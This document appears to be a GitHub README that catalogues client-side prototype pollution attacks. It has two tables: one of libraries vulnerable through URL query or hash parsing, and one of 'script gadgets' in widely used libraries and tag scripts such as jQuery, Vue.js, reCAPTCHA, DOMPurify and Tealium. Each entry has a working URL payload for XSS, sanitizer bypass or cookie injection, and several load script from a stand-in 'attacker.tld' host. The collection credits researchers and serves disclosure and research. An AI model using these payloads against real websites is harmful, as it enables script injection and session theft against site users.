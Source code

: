 # Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                              | Payload                                                                  | Refs                                        | Found by                                         |
|-------------------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                                 | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)          | `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                           | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)                         | `?__proto__.test=test`<br>`?__proto__[test]=test`<br>`?__proto__[test]={"json":"value"}`|                              | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)                   | `?__proto__.test=test`<br>`?constructor.prototype.test=test`<br>`?__proto__.array=1\|2\|3`| [[1]](https://bugcrowd.com/disclosures/57b28008-4653-4dec-88c3-4d38e40023ff/toolbox-teslamotors-com-html-injection-via-prototype-pollution-potential-xss) | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                                   | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [MooTools More](/pp/mootools-more.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Swiftype Site Search (**Fixed**)](/pp/swiftype-site-search.md)   | `#__proto__[test]=test`                                                  |                                             | [s1r1us](https://twitter.com/S1r1u5_)            |
| [CanJS deparam](/pp/canjs-deparam.md)                             | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [Rahul Maini](https://twitter.com/iamnoooob)     |
| [Purl (jQuery-URL-Parser)](/pp/purl.md)                           | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [HubSpot Tracking Code (**Fixed**)](/pp/hubspot.md)               | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`<br>`#__proto__[test]=test`|                            | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [YUI 3 querystring-parse](/pp/yui3.md)                            | `?constructor[prototype][test]=test`                                     |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [Mutiny](/pp/mutiny.md)                                           | `?__proto__.test=test`                                                   |                                             | [SPQR](https://twitter.com/amlnspqr)             |
| [jQuery parseParams](/pp/jquery-parseparam.md)                    | `?__proto__.test=test`<br>`?constructor.prototype.test=test`             |                                             | [POSIX](https://twitter.com/po6ix)               |
| [php.js parse_str](/pp/parse_str.md)                              | `?__proto__[test]=test`<br>`?constructor[prototype][test]=test`          |                                             | [POSIX](https://twitter.com/po6ix)               |
| [arg.js](/pp/arg-js.md)                              | `?__proto__[test]=test`<br>`#__proto__[test]=test`          |                                             | [POSIX](https://twitter.com/po6ix)               |
| [davis.js](/pp/davis-js.md)                              | `?__proto__[test]=test`          |                                             | [POSIX](https://twitter.com/po6ix)               |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get](/gadgets/jquery.md#get-jquery-all-versions) | `?__proto__[context]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[jquery]=x`| XSS              |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300)    | `?__proto__[url][]=data:,alert(1)//`<br>`&__proto__[dataType]=script`  | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md#get-jquery--300-1)  | `?__proto__[url]=data:,alert(1)//`<br>`&__proto__[dataType]=script`<br>`&__proto__[crossDomain]=`| XSS |                                       | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md#getscript-jquery--340) | `?__proto__[src][]=data:,alert(1)//`                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $.getScript 3.0.0 - 3.3.1](/gadgets/jquery.md#getscript-jquery-300---331) | `?__proto__[url]=data:,alert(1)//`                  | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [jQuery $(html)](/gadgets/jquery.md#html-jquery-all-versions)  | `?__proto__[div][0]=1`<br>`&__proto__[div][1]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[div][2]=1`| XSS    |                                | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [jQuery $(x).off](/gadgets/jquery.md#xoff-jquery-all-versions) | `?__proto__[preventDefault]=x`<br>`&__proto__[handleObj]=x`<br>`&__proto__[delegateTarget]=<img/src/onerror%3dalert(1)>`| XSS    |             | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google reCAPTCHA](/gadgets/recaptcha.md)               | `?__proto__[srcdoc][]=<script>alert(1)</script>`                              | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1`<br>`&__proto__[src]=//attacker.tld/js.js`          | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1`<br>`&__proto__[url]=//attacker.tld/js.js`               | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[innerText]=<script>alert(1)</script>`                             | Bypass            | [[1]](https://github.com/apostrophecms/sanitize-html/commit/0fe551c2c6fac1277c0b9688263bd61acc52baf8)| [Hpdoger](https://twitter.com/hpdoger)              |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror`<br>`&__proto__[whiteList][img][1]=src`| Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror`<br>`&__proto__[ALLOWED_ATTR][1]=src`    | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1`<br>`&__proto__[*%20SRC]=1`                        | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img`<br>`&__proto__[src][]=x:`<br>`&__proto__[onerror][]=alert(1)` | XSS     |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Adobe Dynamic Tag Management](/gadgets/adobe-dtm.md)   | `?__proto__[src]=data:,alert(1)//`                                            | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Swiftype Site Search](/gadgets/swiftype-site-search.md)| `?__proto__[xxx]=alert(1)`                                                    | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Embedly Cards](/gadgets/embedly.md)                    | `?__proto__[onload]=alert(1)`                                                 | XSS               |                                                   | [Guilherme Keerok](https://twitter.com/k33r0k)      |
| [Segment Analytics.js](/gadgets/segment-analytics.md)   | `?__proto__[script][0]=1`<br>`&__proto__[script][1]=<img/src/onerror%3dalert(1)>`<br>`&__proto__[script][2]=1`| XSS   |                               | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Knockout.js](/gadgets/knockout.md)                     | `?__proto__[4]=a':1,[alert(1)]:1,'b`<br>`&__proto__[5]=,`                     | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Zepto.js](/gadgets/zepto.md)                           | `?__proto__[onerror]=alert(1)`                                                | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Sprint.js](/gadgets/sprint.md)                         | `?__proto__[div][intro]=<img%20src%20onerror%3dalert(1)>`                     | XSS               | [[1]](https://xz.aliyun.com/t/8552)               | [lih3iu](https://twitter.com/lih3iu)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-if]=_c.constructor('alert(1)')()`                               | XSS               |                                                   | [POSIX](https://twitter.com/po6ix)                |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[attrs][0][name]=src`<br>`&__proto__[attrs][0][value]=xxx`<br>`&__proto__[xxx]=data:,alert(1)//`<br>`&__proto__[is]=script`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[v-bind:class]=''.constructor.constructor('alert(1)')()`           | XSS               | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [r00timentary](https://ctftime.org/team/32783) |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[data]=a`<br>`&__proto__[template][nodeType]=a`<br>`&__proto__[template][innerHTML]=<script>alert(1)</script>`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [SuperGuesser](https://twitter.com/SuperGuesser)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[props][][value]=a`<br>`&__proto__[name]=":''.constructor.constructor('alert(1)')(),"`  | XSS | [[1]](https://blog.s1r1us.ninja/CTF/zer0ptsctf2021-challenges) | [st98_](https://twitter.com/st98_)               |
| [Vue.js](/gadgets/vuejs.md)                             | `?__proto__[template]=<script>alert(1)</script>`  | XSS | [[1]](https://github.com/aszx87410/ctf-writeups/issues/24) | [huli](https://github.com/aszx87410/)               |
| [Demandbase Tag](/gadgets/demandbase-tag.md)            | `?__proto__[Config][SiteOptimization][enabled]=1`<br>`&__proto__[Config][SiteOptimization][recommendationApiURL]=//attacker.tld/json_cors.php?`  | XSS |  | [SPQR](https://twitter.com/amlnspqr) |
| [@analytics/google-tag-manager](/gadgets/analytics-google-tag-manager.md) | `?__proto__[customScriptSrc]=//attacker.tld/xss.js`                                                                            | XSS |  | [SPQR](https://twitter.com/amlnspqr) |
| [i18next](/gadgets/i18next.md) | `?__proto__[lng]=cimode`<br>`&__proto__[appendNamespaceToCIMode]=x`<br>`&__proto__[nsSeparator]=<img/src/onerror%3dalert(1)>`                                      | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [i18next < 19.8.5](/gadgets/i18next.md) | `?__proto__[lng]=a`<br>`&__proto__[a]=b`<br>`&__proto__[obj]=c`<br>`&__proto__[k]=d`<br>`&__proto__[d]=<img/src/onerror%3dalert(1)>`                      | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [i18next >= 19.8.5](/gadgets/i18next.md) | `?__proto__[lng]=a`<br>`&__proto__[key]=<img/src/onerror%3dalert(1)>`                                                                                    | Potential XSS |  | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Google Analytics](/gadgets/google-analytics.md)        | `?__proto__[cookieName]=COOKIE%3DInjection%3B`                                                                                            | Cookie Injection | | [Sergey Bobrov](https://twitter.com/Black2Fan)    |

